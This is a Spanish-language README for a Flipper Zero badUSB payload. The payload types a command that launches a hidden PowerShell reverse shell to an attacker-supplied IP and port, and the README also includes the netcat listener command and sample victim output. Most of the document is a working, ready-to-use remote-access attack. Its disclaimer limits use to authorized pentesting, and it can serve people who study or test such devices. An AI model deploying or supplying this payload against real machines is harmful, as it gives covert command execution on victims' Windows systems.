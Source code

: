 # Reverse Shell Payload for badUSB Flipper Zero

Este repositorio contiene un **payload** para la app badUSB en Flipper Zero que inicia una **reverse shell** en PowerShell de forma oculta, ideal para pruebas en entornos controlados.

---

## ⚙️ Requisitos

* Flipper Zero con firmware compatible (v0.54+).
* Ordenador atacante con `nc` o `rlwrap nc` escuchando en el puerto elegido.
* Windows victim con PowerShell instalado (Windows 7/10/11).

---

## 📜 Payload

Guarda este script en `/badusb/` de tu Flipper Zero (por ejemplo, `reverse_shell.txt`):

```txt
DELAY 1000
GUI r
DELAY 500

REM — 1ª PowerShell visible para poder teclear —
STRING powershell
ENTER
DELAY 100

REM — Lanza un PowerShell oculto con tu bucle de reverse‑shell y cierra este —
STRING Start-Process powershell.exe -WindowStyle Hidden -ArgumentList '-NoP -NonI -ExecutionPolicy Bypass -Command "$a=''System.Net.Sockets.TCPClient'';$x=New-Object ($a) ''<TU_IP_ATACANTE>'',<PUERTO>; $s=$x.GetStream(); $sr=New-Object System.IO.StreamReader($s); $sw=New-Object System.IO.StreamWriter($s); $sw.AutoFlush=$true; while(($l=$sr.ReadLine()) -ne $null){ $o=iex $l 2>&1|Out-String; $sw.WriteLine($o) }"' ; exit
DELAY 100
ENTER
```

> **Importante**: Sustituye `<TU_IP_ATACANTE>` y `<PUERTO>` por tu dirección IP y puerto de escucha.

---

## 🚀 Uso

1. **Configura** tu listener en Linux/macOS/Windows:

   ```bash
   rlwrap nc -l -v -n <PUERTO>
   ```
2. **Carga** el payload en tu Flipper Zero y ejecútalo en el equipo víctima.
3. Tras unos segundos, tu **listener** mostrará:

   ```text
   Connection received on <IP_VICTIMA> <PUERTO>
   whoami
   <USUARIO>\\<EQUIPO>
   ```
4. A partir de ahí, puedes enviar comandos (por ejemplo `dir`, `ipconfig`, etc.) y recibir la salida.

---

## 📖 Estructura del repositorio

```text
/ reverse_shell.txt    ← Payload para Flipper Zero
/ README.md           ← Esta guía
```

---

## ⚠️ Disclaimer legal

Este proyecto es **únicamente** para **fines educativos** y de **pentesting autorizado**. No debes usar este payload contra sistemas en los que no tengas **permiso expreso** para realizar pruebas de seguridad.

El autor no se hace responsable del uso indebido que se realice de este material. Asegúrate siempre de actuar de acuerdo con las leyes y regulaciones locales.

---

## 📜 Licencia

Este proyecto se distribuye bajo la licencia MIT. Puedes modificarlo y redistribuirlo, siempre manteniendo este aviso y la atribución al autor original.

By amis13
